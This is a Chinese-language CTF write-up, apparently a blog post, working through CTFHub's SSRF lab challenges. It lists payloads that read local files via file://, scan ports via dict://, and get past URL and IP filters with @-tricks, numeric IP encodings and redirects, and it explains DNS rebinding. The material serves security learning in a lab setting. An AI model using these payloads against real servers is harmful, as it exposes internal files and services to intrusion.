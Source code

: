 ﻿---
title: CTFHub SSRF
categories: ctf题目
---


![](https://img-blog.csdnimg.cn/20210404114641950.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

<!--more-->
---
# 内网访问
- 尝试访问位于127.0.0.1的flag.php吧

![](https://img-blog.csdnimg.cn/20210404114757832.png#pic_center)
Payload：
```
?url=127.0.0.1/flag.php
```


---
# 伪协议读取文件
- 尝试去读取一下Web目录下的flag.php

根据题目的意思我们需要使用URL的伪协议去读取文件，那么我们首先要了解`URL的伪协议`
URL伪协议有如下这些：[SSRF中的URL伪协议](https://www.cnblogs.com/-mo-/p/11673190.html)
```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```

用file读取 , Payload：
```
?url=file:///var/www/html/flag.php
```

---
# 端口扫描
题目提示端口在8000-9000，因此直接扫就可以了。这里我们需要使用`dict伪协议`来扫描，因为dict协议可以用来探测开放的端口。

```
?url=dict://127.0.0.1:8922   
```
![](https://img-blog.csdnimg.cn/20210404115651941.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
```
?url=127.0.0.1:8922
```
![](https://img-blog.csdnimg.cn/20210404115710581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# URL Bypass
url解析问题
url跳转bypass：
```
1.利用问好绕过限制url=https://www.baidu.com?www.xxxx.me
2.利用@绕过限制url=https://www.baidu.com@www.xxxx.me
3.利用斜杠反斜杠绕过限制
4.利用#绕过限制url=https://www.baidu.com#www.xxxx.me
5.利用子域名绕过
6.利用畸形url绕过
7.利用跳转ip绕过
```

![](https://img-blog.csdnimg.cn/20210404115932888.png#pic_center)

Payload：
```
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

---
# IP Bypass
- Ip进制转换

![](https://img-blog.csdnimg.cn/20210404120022591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
payload:
```
127.0.0.1可以替换为:
十六进制：0x7F000001
十进制:  2130706433
或 localhost
```

php脚本：

```php
<?php
$ip = '127.0.0.1';
$ip = explode('.',$ip);
$r = ($ip[0] << 24) | ($ip[1] << 16) | ($ip[2] << 8) | $ip[3] ;
if($r < 0) {
$r += 4294967296;
}
echo "十进制:";
echo $r;
echo "八进制:";
echo decoct($r);
echo "十六进制:";
echo dechex($r);
?>
```


---
# 302跳转bypass


访问http://127.0.0.1/flag.php
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021040412194198.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

在网络上存在一个很神奇的服务，网址为 `http://xip.io`，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，举个例子：

>当我们访问 http://127.0.0.1.xip.io/flag.php，那么实际上我们访问的是就 http://127.0.0.1/flag.php。

试了一下失败

还有一个302跳转的方法，即利用短地址跳转绕过，这里也给出一个网址: [https://4m.cn/](https://4m.cn/)

![](https://img-blog.csdnimg.cn/20210404122421202.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

访问得到flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210404122442913.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


---
# DNS重绑定DNS Rebinding攻击

>在网页浏览过程中，用户在地址栏中输入包含域名的网址。浏览器通过DNS服务器将域名解析为IP地址，然后向对应的IP地址请求资源，最后展现给用户。而对于域名所有者，他可以设置域名所对应的IP地址。当用户第一次访问，解析域名获取一个IP地址；然后，域名持有者修改对应的IP地址；用户再次请求该域名，就会获取一个新的IP地址。对于浏览器来说，整个过程访问的都是同一域名，所以认为是安全的。这就造成了DNS Rebinding攻击。

基于这个攻击原理，Kali Linux提供了对应的工具Rebind。该工具可以实现对用户所在网络路由器进行攻击。当用户访问Rebind监听域名，Rebind会自动实施DNS Rebinding攻击，通过用户的浏览器执行js脚本，建立socket连接。这样，Rebind可以像局域网内部用户一样，访问路由器，从而控制路由器。

1.攻击者控制恶意的DNS服务器来回复域的查询,如rebind.network

2.攻击者通过一些方式诱导受害者加载http://rebind.network

3.用户打开链接,浏览器就会发出DNS请求查找rebind.network的IP地址

4.恶意DNS服务器收到受害者的请求,并使用真实IP地址进行响应,并将TTL值设置为1秒,让受害者的机器缓存很快失效

5.从http://rebind.network加载的网页包含恶意的js代码,构造恶意的请求到http://rebind.network/index,而受害者的浏览器便在执行恶意请求

6.一开始的恶意请求当然是发到了攻击者的服务器上,但是随着TTL时间结束,攻击者就可以让http://rebind.network绑定到别的IP,如果能捕获受害者的一些放在内网的应用IP地址,就可以针对这个内网应用构造出对应的恶意请求,然后浏览器执行的恶意请求就发送到了内网应用,达到了攻击的效果


dns解析

![](https://img-blog.csdnimg.cn/20210404125704543.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

这是一个测试dns重绑定漏洞的网站,可以让一个域名随机的绑定两个IP 

[https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210404125802745.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

访问过程中会不断出现以下报错，这是因为这个域名是不断的在127.0.0.1与xxx.xxx.xxx.xxx之间跳动的，所以要不断访问数次

[浅谈DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)

---
# Redis协议和FastCGI协议
这两道按着wp没弄出来，先去刷ctfshow，再回来试试吧

[Redis在SSRF中的应用](https://sec.thief.one/article_content?a_id=3c0250e0cbc5180cf95bba5002385533)


[浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)

工具：Gopherus
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210404143514135.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


---
# 参考
[我在CTFHub学习SSRF](https://www.freebuf.com/articles/web/258365.html)

[CTFHub-SSRF部分（已完结）](https://blog.csdn.net/rfrder/article/details/108589988)

